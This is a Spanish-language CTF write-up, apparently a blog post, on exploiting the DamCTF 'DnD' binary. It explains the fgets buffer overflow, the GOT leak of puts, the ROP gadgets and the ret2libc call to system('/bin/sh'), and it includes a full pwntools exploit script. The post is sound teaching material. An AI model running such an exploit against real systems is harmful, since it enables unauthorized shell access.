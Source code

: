 ```yaml
---
layout: post
title: DnD DamCTF
comments: true
categories: [Pwn, Writeups, HFCTF2025]
---
```


En este post veremos la resolución de un reto bastante chulo en el que tendremos que *leakear* una dirección de libc para poder invocar a system y obtener una shell. Este ejercicio nos llevó un rato y nos quedamos muy cerca, finalmente lo sacaron el resto de miembros de mi equipo. Utiliza una técnica muy útil e importante de conocer.

<br>
![Image]({{ site.baseurl }}/images/posts/damctf.png){:width="700px"}
<br>

# Reconocimiento

Se nos da un programa que simula batallas contra monstruos al estilo de [Dungeons and Dragons](https://dnd.wizards.com/es). En general el código es largo así que no lo incluiré. Lo que sí llama la atención es la función `win`, a la que se llama cuando ganas la partida:

```c++
void win(void)
{
  basic_ostream *pbVar1;
  char name [32];
  basic_string local_48 [9];
  allocator local_21;
  allocator *local_20;
  
  std::cout<<"Congratulations! Minstrals will sing of your triumphs for millenia to co me.";
  std::cout<<"What is your name, fierce warrior? ";

  fgets(name,256,stdin); // Buffer Overflow

  std::cout<<"We will remember you forever, "<<name;
  
  return;
}
```
*La salida de Ghidra es bastante más compleja pero la he simplificado.*

<br>

Vemos que la llamada a `fgets` almacena 256 bytes en `name`, que sólo puede almacenar 32. Tenemos un **buffer overflow**. El problema es que no tenemos nada interesante a donde saltar en el binario.

Por suerte sí que nos dan la libc entre los archivos del reto. En este punto nuestra idea será saltar a *system* en la libc pasando como argumento la cadena `"/bin/sh"`.

# Explotación

## Offset

Lo primero será encontrar el offset hasta la dirección de retorno para controlar el flujo de ejecución. Esto se hace de forma sencilla con `cyclic` en *gdb-peda* (ó *pwn cyclic* de *pwntools*):

<br>
![Image]({{ site.baseurl }}/images/posts/2025-05-11-DnD-DamCTF-1.png){:width="1000px"}
<br>

> Hay que tener en cuenta que para acceder a esta función debemos haber ganado la partida. Por simplicidad podemos atacar dos veces e ir probando, normalmente a la segunda ganaremos directamente.

## Extrayendo direcciones de libc

A la hora de saltar a libc siempre tenemos el problema de que las direcciones cambiarán con cada iteración. Por tanto no podremos saltar directamente, y deberemos extraerlas en tiempo de ejecución. Por suerte, sí que podemos leer la **GOT** (*Global Offset Table*), que hace de intermediaria, almacenando las direcciones de las funciones utilizadas de la libc. En este [artículo](https://ian.nl/blog/leak-libc-rop) se explica mucho mejor.

Para leer las direcciones de la GOT necesitamos una función que imprima, en este caso tenemos `puts` (en este caso lo he sacado de Ghidra, pero se pueden sacar estas funciones con `objdump -d binary | grep plt`):

<br>
![Image]({{ site.baseurl }}/images/posts/2025-05-11-DnD-DamCTF-2.png){:width="1000px"}
<br>

### Leakear la dirección base de libc

Teniendo puts podemos extraer su dirección de libc y calcular la dirección base de libc, que nos servirá a su vez para calcular la dirección de *system* y la dirección de la cadena `"/bin/sh"`.

Para sacar la dirección de *puts* en libc llamaremos a *puts* pasando como argumento su dirección en la GOT. Para cargar el argumento necesitaremos un gadget `pop rdi; ret;`, la idea será la siguiente:

```
payload = pop_rdi + puts@got + puts@plt
```

Para buscar el gadget utilizamos *ropper*:

```bash
ropper -f dnd/dnd  | grep "rdi"

[...]
0x0000000000402640: pop rdi; nop; pop rbp; ret;
[...]
```

No tenemos el `pop rdi` sólo así que tendremos que utilizar éste. El payload será algo así:

```
payload = pop_rdi_rbp + puts@got + trash_for_rbp + puts@plt + win
```

Metemos `win` al final para que una vez leakeada la dirección podamos volver a enviar otro payload.

### Calcular system y bin_sh

Una vez tenemos la dirección base de libc, podemos buscar el offset hasta `system` y hasta una cadena `"/bin/sh"`:

```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system

strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
```

```
system_libc = libc_base + system_offset
bin_sh_libc = libc_base + bin_sh_offset
```

## Conseguimos la shell

Para conseguir la shell deberemos cargar la cadena en *rdi* con el mismo gadget de antes y llamar a system:

```
payload = pop_rdi_rbp + bin_sh_libc + trash_for_rbp + system_libc
```

## Script

Para ejecutar el ataque podemos hacer un script con *pwntools*. Como dije antes la interacción para ganar el combate se limita a *atacar* dos veces al monstruo, por lo que hay que ejecutarlo varias veces hasta que de la casualidad que gane.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

# Set up pwntools for the correct architecture
elf = context.binary = ELF(args.EXE or './dnd')
libc = ELF('./libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote("dnd.chals.damctf.xyz", 30813)
    else:
        return process([elf.path] + argv, *a, **kw)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

offset = 104

win = p64(0x000000000040286d)

# 0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
pop_rdi_rbp = p64(0x0000000000402640)

# 000000408100  002100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
puts_got = p64(0x000000408100) #p64(elf.got['puts'])

# 4029dc:	e8 df fa ff ff       	call   4024c0 <puts@plt>
puts_plt = p64(0x4024c0) #p64(elf.plt['puts'])

# 235: 0000000000087be0   550 FUNC    WEAK   DEFAULT   17 puts@@GLIBC_2.2.5
puts_offset = 0x0000000000087be0

# 1050: 0000000000058750    45 FUNC    WEAK   DEFAULT   17 system@@GLIBC_2.2.5
system_offset = 0x0000000000058750

bin_sh = next(libc.search(b"/bin/sh"))

io = start()

io.recvuntil(b'[r]un?')
io.sendline(b'a')

io.recvuntil(b'[r]un?')
io.sendline(b'a')

io.recvuntil(b'What is your name, fierce warrior?')

io.sendline(offset*b'A' + pop_rdi_rbp + puts_got + b"AAAAAAAA" + puts_plt + win)

## SEGUNDA EJECUCION

line = io.recvline()
log.info(line)
line = io.recvline()
log.success(line)
puts_libc = int.from_bytes(line[-8:-1], "little") # Leak puts libc addr
log.success("Leaked: " + hex(puts_libc))

libc.address = puts_libc - puts_offset

system_libc = p64(libc.address + system_offset)
bin_sh_libc = p64(libc.address + bin_sh)

# ret from libc for stack alignment
ret = p64(libc.address + 0x000000000002882f)

log.info("System_libc: " + hex(int.from_bytes(system_libc, "little")))
log.info("/bin/sh_libc: " + hex(int.from_bytes(bin_sh_libc, "little")))

io.sendline(offset*b'A' + ret + pop_rdi_rbp +  bin_sh_libc + b"AAAAAAAA" + system_libc)

io.interactive()
```

Si en local no funciona tiene que ver con que el sistema esté utilizando su propia versión de libc, lo que se puede resolver utilizando *pwninit* del paquete de *pwntools*.

<br>
![Image]({{ site.baseurl }}/images/posts/2025-05-11-DnD-DamCTF-3.png){:width="1000px"}
<br>

Puede que sea un poco denso, pero la técnica para leakear una dirección mediante una dirección de la GOT es muy útil. Si te ha gustado puedes leer el resto de posts. Y si tienes alguna duda deja un comentario!